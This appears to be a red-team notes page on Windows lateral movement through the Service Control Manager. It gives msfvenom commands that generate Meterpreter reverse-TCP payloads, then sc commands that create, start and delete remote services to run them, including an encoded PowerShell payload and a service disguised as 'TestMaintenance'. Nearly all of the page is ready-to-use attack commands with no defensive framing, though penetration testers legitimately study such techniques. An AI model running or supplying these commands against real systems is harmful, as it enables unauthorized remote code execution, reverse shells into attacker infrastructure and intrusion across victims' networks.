 # Living off the Land

Search Tag(s): #lateral-movement #service-control-manager #windows

## 01 - Usage

After we generate a reverse/bind shell refer to the techniques to copy the shell via [[Windows Lateral Movement References|SMB]]

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe-service -o shellsvc.exe

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh-cmd
```

Here's the following syntax

```
C:\> sc \\<IP> create <ServiceSVC> binpath= "c:\path\to\shellsvc.exe"

C:\> sc \\<IP> start <ServiceSVC>

C:\> sc \\<IP> delete <ServiceSVC>
```

## 02 - Use Cases

```
C:\> sc \\<IP> create pwshpayload binpath= "powershell -E <base64_encoded>"

C:\> sc \\<IP> start pwshpayload

C:\> sc \\<IP> delete pwshpayload

C:\> sc \\<IP> create TestMaintenance binpath= "c:\path\to\shellsvc.exe"

C:\> C:\> sc \\<IP> start TestMaintenance

C:\> C:\> sc \\<IP> delete TestMaintenance
```

---
## References

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)

- [Riccardo Ancarani - Red Team Adventures: Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)

- [nv2lt: Windows Lateral Movement with SMB, PsExec and Alternatives](https://nv2lt.github.io/windows/smb-psexec-smbexec-winexe-how-to/)